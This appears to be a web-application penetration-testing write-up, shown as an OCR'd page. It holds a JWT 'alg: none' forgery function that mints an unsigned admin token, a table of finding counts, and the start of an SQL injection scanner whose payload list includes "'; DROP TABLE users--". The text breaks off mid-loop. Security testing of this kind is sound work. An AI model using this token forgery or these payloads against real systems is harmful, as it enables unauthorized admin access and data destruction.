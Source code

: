 #### Algorithm Confusion Attack
```python
# Change algorithm from HS256 to none
def create_unsigned_token(payload):
    header = {"typ": "JWT", "alg": "none"}
    
    encoded_header = base64.urlsafe_b64encode(json.dumps(header).encode()).decode().rstrip('=')
    encoded_payload = base64.urlsafe_b64encode(json.dumps(payload).encode()).decode().rstrip('=')
    
    # No signature for 'none' algorithm
    return f"{encoded_header}.{encoded_payload}."

# Create admin token
admin_payload = {"user": "test", "admin": True}
malicious_token = create_unsigned_token(admin_payload)
```

## Key Findings and Metrics

### Vulnerability Distribution
| Vulnerability Type | Count | Severity |
|-------------------|-------|----------|
| SQL Injection | 23 | Critical |
| XSS | 45 | High |
| Access Control | 12 | High |
| CSRF | 8 | Medium |
| Security Misconfiguration | 15 | Medium |

### Common Root Causes
1. **Lack of Input Validation**: 40% of vulnerabilities
2. **Missing Access Controls**: 25% of vulnerabilities
3. **Insecure Defaults**: 20% of vulnerabilities
4. **Outdated Components**: 15% of vulnerabilities

## Automated Security Testing

### Custom Scanner Development
```python
#!/usr/bin/env python3
import requests
import re
from urllib.parse import urljoin

class WebAppScanner:
    def __init__(self, base_url):
        self.base_url = base_url
        self.session = requests.Session()
        self.vulnerabilities = []
    
    def test_sql_injection(self, url, params):
        """Test for SQL injection vulnerabilities"""
        sql_payloads = ["'", "1' OR '1'='1", "'; DROP TABLE users--"]
        
        for payload in sql_payloads:
            test_params = params.copy()
            for param in test_params:
                test_params[param] = payload
                
```